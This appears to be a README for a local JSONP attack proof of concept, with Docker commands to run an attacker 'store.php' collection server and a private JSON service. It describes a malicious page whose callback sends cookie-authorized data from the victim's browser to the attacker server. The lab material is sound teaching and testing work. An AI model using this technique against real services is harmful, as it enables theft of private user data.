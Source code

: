 # JSONP-PoC
JSONP is a special method to wrap JSON data in a JavaScript function.
If a webervice allows requests with custom defined callback-functions, the webservice might be vulnerable to JSONP attacks.
How this could be achieved, is described below.

## Starting the attack-server
The attack-server is the server that receives our data and stores it in a file. To do this, we need to make a POST request to http://127.0.0.1:8082/store.php with the `data` parameter. For example:
```
POST /store.php HTTP/1.1
Host: 127.0.0.1:8082
User-Agent: Firefox
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Connection: close
Upgrade-Insecure-Requests: 1

data=test
```
See also `test-post.html` which can be used to make such POST requests.

To start the server:
```
cd attack-server
docker run --rm -p 8082:80 --name attack-server --mount type=bind,source="$(pwd)",target=/var/www/html php:apache
```
The file `./data/data.sav` may still need to be given the correct permissions:
```
docker exec -it attack-server bash
mkdir data
touch data/data.sav
chown -R www-data:www-data data
```

## Starting the (private) json-webserver
```
cd json-webserver
docker run --rm -p 3000:3000 --name json-server -v `pwd`:/data williamyeh/json-server --watch db.json
```

## Stopping the servers
```
docker stop attack-server
docker stop json-server
```

## Checks
Verify if POST-requests can be sent to the attack-server:
```
http://127.0.0.1:8082/test-post.html
```
Change into the docker container and output the file `data.sav`:
```
docker exec -it attack-server bash
cat /var/www/html/data/data.sav
```
The file `data.sav` should contain the string that you sent via the `test-post.html` website.

Check if the json-webserver is running and responds with JSON-data:
```
http://127.0.0.1:3000/posts
```

## PoC
Now assume the following scenario:
If the webservice or the data served by the webservice (json-webserver) is only accessible to authorized users, there is no way to directly access this private data by an attacker. For example, accessibility to the data could be granted to users that include certain cookies or other secrets into their requests. The webservice would then respond to these requests only if the cookies are valid.

If however the webservice allows JSONP, we could create a malicious website that makes requests from the victims browser to the vulnerable webservice. The requests sent from the victims browser would include all necessary cookies to authorize against the webservice.
The only thing to do is to lure the victim to the malicious website.
In our PoC the malicious website is running under
```
http://127.0.0.1:8082/jsonp-attack.html
```

If the victim opens this link, a request to the webservice with a callback parameter is made:
```
http://127.0.0.1:3000/posts?callback=myCallbackServer
```
The callback `myCallbackServer` is a JavaScript-function that takes the data received from the webservice and sends it back to our attack-server via
```
http://127.0.0.1:8082/store.php
```

If the data from the webservice was received corretly can be checked as previously by cat'ing the file `data.sav`:
```
docker exec -it attack-server bash
cat /var/www/html/data/data.sav
```
